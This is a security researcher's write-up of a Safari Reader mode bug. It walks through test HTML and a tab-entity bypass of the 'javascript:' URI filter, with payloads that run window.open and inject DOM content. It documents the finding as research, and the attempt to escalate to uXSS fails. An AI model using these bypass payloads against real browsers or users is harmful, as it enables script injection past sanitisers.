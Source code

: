 # Safari Reader Preview Javascript Code Execution

Reading mode is a feature implemented in most of the browsers that allow users to read articles in a clutter-free view i.e rendering a page in a way that will be easy to read without any distraction.

Here is a image that explains reader mode pretty well. 

![1](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Jan%2014%2012-10-49.png)

But have you ever wonder how browsers achieve it? During the rendering process, browsers remove all unnecessary code, like javaScript, iframes, other embedding elements etc.

Let's try to run a sample code code that embeds a few elments to see how safari reacts
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Safari Reader Preview JavaScript Code execution</title>
</head>
<body>
    <h2 style="color: red;">macOS. It’s why there’s nothing else like a Mac</h2>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p>
    <p>macOS is the operating system that powers every Mac. It lets you do things you simply can’t with other computers. That’s because it’s designed specifically for the hardware it runs on — and vice versa. macOS comes with an entire suite of beautifully designed apps. It works hand in hand with iCloud to keep photos, documents and other stuff up to date on all your devices. It makes your Mac work like magic with your iPhone and other Apple devices. And it’s been built from the ground up with privacy and security in mind.</p><br>
    <a href="https://www.apple.com/">Source: Apple.com</a><br><br>
    <iframe src="https://www.bing.com" frameborder="0"></iframe>
    <embed src="https://www.bing.com" type="">
    <object data="https://www.bing.com" type=""></object>
    <p onmouseover="alert(1)" style="color: red;">alert(1)</p>
    <script>alert(1);</script>
</body> 
</html>     
```
And this is how our page rendered in safari
![1](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-20-44.png)

Now if you see a tiny lined button at the start of the address bar, that is what indicates whether the reader mode is available or not for the particular webpage. 
Let's put the document in reading mode to see how it looks
![2](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-28-52.png)

As expected safari created a nice clutter-free view by modifying the DOM. Let's look at the DOM to check what exactly happened.
![3](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-32-11.png)

And as you may notice `iframe`, `embed`, `object`, `script` and `onmouseover` is removed. 
But what is interesting is a hyperlink that points to apple.com, so as you click on the link you will be redirected to apple.com.

So since the anchor tag is allowed, the next idea that came to my mind is to use javascript URI
Let's modify the last few lines our sample code and to see what happens.

```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="javascript:alert(1)">Evil link</a>   
```
Now safari removed the link that points to javascript URI while the link to apple.com is same as can be seen in below snapshot

![4](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2012-45-29.png)

After I came across this blogpost [Safari Reader UXSS](https://alf.nu/SafariReaderUXSS) from `Erling ` which shows a bypass that URLs with `javascript:` are filtered, but ones with `JaVASCRiPT:` or  `javaScript:` are not.

So this behaviour is already fixed by the safari team, Let's try to bypass it again. first thing first is using HTML5 entities to build a link with javascript URI, the first and most obvious payload will be 
```
<a href="jav&Tab;ascript:alert(1)">Evil link</a>
```
And it worked! 

![5](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-15-27.png)

But, if you try to click on the link it will not work. even there no error in the console as displayed in below image

![6](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-20-32.png)

Seems there is another challenge for me. Next, the idea is to find out what is happening here. 

To find out why our javascript code is not working we can define an invalid javascript code to identify whether the browser is interpreting it or not. 
Let's again modfiy a few lines in our sample code as follows
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:invalidFunction();">Evil link</a>
```
And as you can see below it throws a nice error

![7](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2013-30-53.png)

Now what we can conclude is that somehow browser is identifying certain javascript code and will not allows us to execute it. 

I have tested several functions during this time and figured out that at least `window.open` is working so let's modify our sample code and check the results

Modfied code
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:var a = window.open('');a.alert(window.location.href)">Evil link</a><br>
```

![8](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2016-15-21.png)

As you can see the javascript code is executing in context to `safari-reader` which is a pseudo-protocol used in safari reading mode. 

We can also do funny stuff to disturb the user to break safari's promise.
Let's again remodify the last few lines and see how it works
```
<a href="https://www.apple.com/">Source: Apple.com</a><br>
<a href="jav&Tab;ascript:var p = document.createElement('p');p.innerHTML='<marquee scrollamount=25><img src=https://cdn.pixabay.com/photo/2017/10/26/20/00/pumpkin-2892303_1280.jpg height=400 width=400></marquee>';document.documentElement.appendChild(p)">Evil link</a><br>
```
and it will create a annoying moving pumkin image on the screen as displayed in the below screenshot

![9](https://github.com/c0d3G33k/Safari-Reader-Preview-Javascript-code-execution/blob/master/Screenshot%20at%20Oct%2017%2016-54-35.png)

Check the video proof of concept 
![10](https://youtu.be/sd5dX-2a97E)

Now since we can execute javascript code in reader mode, I tried to escalate it to universal cross-site scripting(uXSS) but could not get success. 

